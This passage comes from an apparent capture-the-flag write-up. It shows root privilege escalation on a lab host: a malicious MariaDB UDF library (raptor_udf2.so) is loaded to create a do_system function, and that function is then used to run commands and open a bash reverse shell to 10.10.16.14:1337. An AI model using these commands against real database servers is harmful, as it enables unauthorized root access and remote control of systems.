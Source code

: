 ```
| name      | ret | dl             | type     |  
+-----------+-----+----------------+----------+  
| do_system |   2 | raptor_udf2.so | function |  
+-----------+-----+----------------+----------+  
1 row in set (0.001 sec)  
  
MariaDB [mysql]> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');  
+----------------------------------------------------------+  
| do_system('id > /tmp/out; chown raptor.raptor /tmp/out') |  
+----------------------------------------------------------+  
|                                                        0 |  
+----------------------------------------------------------+  
1 row in set (0.009 sec)  
  
MariaDB [mysql]> \! sh  
$ cat /tmp/out  
cat: /tmp/out: Permission denied  
$ ls -l /tmp/out  
-rw-rw---- 1 root root 39 Sep  6 18:25 /tmp/out  
$
```

We can see that /tmp/out was written, and that it is, indeed owned by root. This proves that we have command execution as root. Doing a reverse shell:
```
MariaDB [mysql]> create table foo(line blob);  
Query OK, 0 rows affected (0.007 sec)  
  
MariaDB [mysql]> insert into foo values(load_file('/home/svc/raptor_udf2.so'));  
Query OK, 1 row affected (0.002 sec)  
  
MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';  
Query OK, 1 row affected (0.001 sec)  
  
MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';  
Query OK, 0 rows affected (0.000 sec)  
  
MariaDB [mysql]> select do_system("bash -c 'bash -i >& /dev/tcp/10.10.16.14/1337 0>&1");  
+-----------------------------------------------------------------+  
| do_system("bash -c 'bash -i >& /dev/tcp/10.10.16.14/1337 0>&1") |  
+-----------------------------------------------------------------+  
|                                                               0 |  
+-----------------------------------------------------------------+  
1 row in set (0.002 sec)  
  
MariaDB [mysql]> select do_system("bash -c 'bash -i >& /dev/tcp/10.10.16.14/1337 0>&1'");

```

Slight hiccup on my part, but after correcting my mistake, it hangs, and at nc:
```
listening on [any] 1337 ...  
connect to [10.10.16.14] from (UNKNOWN) [10.10.11.160] 51128  
bash: cannot set terminal process group (962): Inappropriate ioctl for device  
bash: no job control in this shell  
root@noter:/var/lib/mysql#
```

We're root!
